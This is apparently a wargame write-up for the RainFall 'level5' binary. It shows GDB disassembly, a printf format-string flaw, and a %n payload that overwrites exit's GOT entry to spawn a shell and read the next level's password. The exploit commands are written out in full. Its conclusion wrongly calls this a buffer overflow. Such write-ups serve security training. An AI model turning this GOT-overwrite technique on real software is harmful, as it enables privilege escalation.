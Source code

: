 # `level5` Exploit

## Steps

### 1. Decompile the Binary

Use GDB to disassemble the `level5` binary and understand its functionality:

```bash
level5@RainFall:~$ gdb level5
(gdb) disassemble main
(gdb) disassemble n
(gdb) disassemble o
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

### 2. Check Available Functions

- The `n` function contains a vulnerable `printf` call because it doesn't use format specifiers.
- An `exit(1)` call is made just after the `printf` call.
- There is an `o` function that launches a shell but is never called:

```c
void o() {
  system("/bin/sh");
  _exit(1);
}
```

### Strategy

Overwrite the call to the `exit` function with a call to the `o` function to get a shell with the privileges needed to read `/home/user/level6/.pass`.

### 3. Find Function Addresses

Use GDB to find the addresses of the functions:

```bash
level5@RainFall:~$ gdb level5
(gdb) info functions
0x080484a4  o
0x080484c2  n
0x08048504  main
```

The address of the `o` function is `0x080484a4`, which is `\xa4\x84\x04\x08` in little-endian format.

To find the address of `exit`, use:

```bash
(gdb) disassemble exit
```

You should see:

```gdb
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>: jmp *0x8049838
   ...
```

The address of `exit` is `0x08049838`, which is `\x38\x98\x04\x08` in little-endian format.

### 4. Determine Format String Offset

Determine the position where `printf` writes the string:

```bash
level5@RainFall:~$ ./level5
AAAA%08x.%08x.%08x.%08x.%08x.%08x
```

The output reveals:

```
AAAA00000200.f7ee5580.00000000.41414141...
```

The `41414141` (corresponding to `AAAA` in ASCII) indicates that the `printf` argument position is at the 4th position.

### 5. Create the Exploit

The address of the `o` function in decimal is `134513828`. Subtract the 4 bytes of the address string: `134513828 - 4 = 134513824`.

Create the exploit string:

```bash
level5@RainFall:~$ python -c 'print("\x38\x98\x04\x08%134513824d%4$n")'
```

### 6. Execute the Exploit

Execute the exploit while keeping `stdin` open:

```bash
level5@RainFall:~$ (python -c 'print("\x38\x98\x04\x08%134513824d%4$n")' ; cat) | ./level5
```

Once the shell is open, execute commands:

```bash
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

### Explanation

1. **Format String Vulnerability**: `printf` without format specifiers allows unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of characters printed so far to an address specified on the stack.
3. **Offset Calculation**: Determines where the format string parameters are on the stack to correctly position the address of `o`.
4. **Exploit String**: Crafted to write the address of `o` in place of the address of `exit`.

## Conclusion

By following these steps, you have successfully exploited a buffer overflow vulnerability to gain shell access on `level5`. This technique uses knowledge of format string exploits and stack manipulation.
